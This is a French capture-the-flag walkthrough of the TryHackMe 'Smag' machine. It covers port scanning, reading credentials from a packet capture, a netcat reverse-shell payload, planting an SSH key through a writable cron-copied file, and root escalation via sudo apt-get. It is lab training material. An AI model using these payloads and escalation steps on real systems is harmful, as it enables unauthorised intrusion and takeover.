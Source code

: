 # Smag
Bon petit chall facile pour s'y remettre un peu sur THM !

# Enumeration
## Nmap
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-10 07:49 EDT
WARNING: Running Nmap setuid, as you are doing, is a major security risk.

Nmap scan report for 10.10.141.12
Host is up (0.040s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
|_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Smag
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.14 seconds
```
## Gobuster 
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/mail                 (Status: 301) [Size: 311] [--> http://10.10.141.12/mail/]

```

# Exploit
On trouve donc une page /mail. On va voir ce qu'elle contient.
On retrouve un fichier .pcap, et les mails parle d'un bug pendant le download du fichier, peut-être une piste ?

## .pcap
On y retrouve une connexion sur le site **development.smag.thm**
```
POST /login.php HTTP/1.1
Host: development.smag.thm
User-Agent: curl/7.47.0
Accept: */*
Content-Length: 39
Content-Type: application/x-www-form-urlencoded

username=helpdesk&password=cH4nG3M3_n0wHTTP/1.1 200 OK
Date: Wed, 03 Jun 2020 18:04:07 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 0
Content-Type: text/html; charset=UTF-8

```
On retrouve donc :

Un domaine : 
```
development.smag.thm
```
Un compte : 
```
username=helpdesk
password=cH4nG3M3_n0w
```
On va donc ajouter ce domaine dans le fichier hosts et voir un peu ce qu'il y a derriere....

On arrive sur un webshell une fois log.
# Revshell
Vu qu'on a accès a un webshell, on va s'ouvrir un rshell plus sympa.

Payload :
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.14.59.209 1234 >/tmp/f
```
Et nous voila sur le serveur
```
──(kali㉿kali)-[~/Challenge/TryHackMe/Smag]
└─$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.14.59.209] from (UNKNOWN) [10.10.141.12] 42934
bash: cannot set terminal process group (707): Inappropriate ioctl for device
bash: no job control in this shell
www-data@smag:/var/www/development.smag.thm$ 

```
# Privesc
En regardant un peu sur la machine, je vois dans les taches cron la copie d'une clé ssh public
```
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    /bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
```
```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC5HGAnm2nNgzDW9OPAZ9dP0tZbvNrIJWa/swbWX1dogZPCFYn8Ys3P7oNPyzXS6ku72pviGs5kQsxNWpPY94bt2zvd1J6tBw5g64ox3BhCG4cUvuI5zEi7y+xnIiTs5/MoF/gjQ2IdNDdvMs/hDj4wc2x8TFLPlCmR1b/uHydkuvdtw9WzZN1O+Ax3yEkMfB........[REDACTED].......gt6WtPYxmtv1AHE4VdD6xFJrM5CGffGbYEQjvJoFX2+vSOCDEFZw1SjuajykOaEOfheuY96Ao3f41m2Sn7Y9XiDt1UP4/Ws+kxfpX2mN69+jsPYmIKY72MSSm27nWG3jRgvPZsFgFyE00ZTP5dtrmoNf0CbzQBriJUa596XEsSOMmcjgoVgQUIr+WYNGWXgpH8G+ipFP/5whaJiqPIfPfvEHbT4m5ZsSaXuDmKercFeRDs= kali@kali
```
Je constate aussi qu'on peu modifier le fichier comme on peu le voir ici:
```
-rw-rw-rw- 1 root root  563 Jun  5  2020 jake_id_rsa.pub.backup
```
je vais donc généré ma propre clé ssh pour avoir un accès sur le serveur.
```
ssh-keygen -t rsa -b 4096 -C "pwn@huehue.com"
```
ensuite, je copie la clé public dans le fichier jake_id_rsa.pub.backup, la tâche cron se chargera de la copier dans le fichier authorized_keys qui ce trouve dans le dossier /home/jake/.ssh.
```
echo "ma super clé secure" > jake_id_rsa.pub.backup
```
ensuite j'essaye de me connecté avec ma clé ssh:
```
ssh -i key jake@10.10.142.12
```
et me voici sur le serveur en ssh avec le compte de jake
```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/Smag/sshkey]
└─$ ssh -i key jake@10.10.141.12
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Fri Jun  5 10:15:15 2020
jake@smag:~$ 
````
On trouve ainsi le 1er flag :
```
jake@smag:~$ cat user.txt 
iusG********************U3j
```

# Privesc to root !
En regardant les droits avec **sudo -l**
```
jake@smag:~$ sudo -l
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
```
On peux voir qu'il peux utilser **/usr/bin/apt-get** en tant que root, et sans mot de passe !

On peux donc invoquer un shell root en utilisant apt-get:
```
jake@smag:~$ sudo /usr/bin/apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
uJr6zR******************BKz2T
```
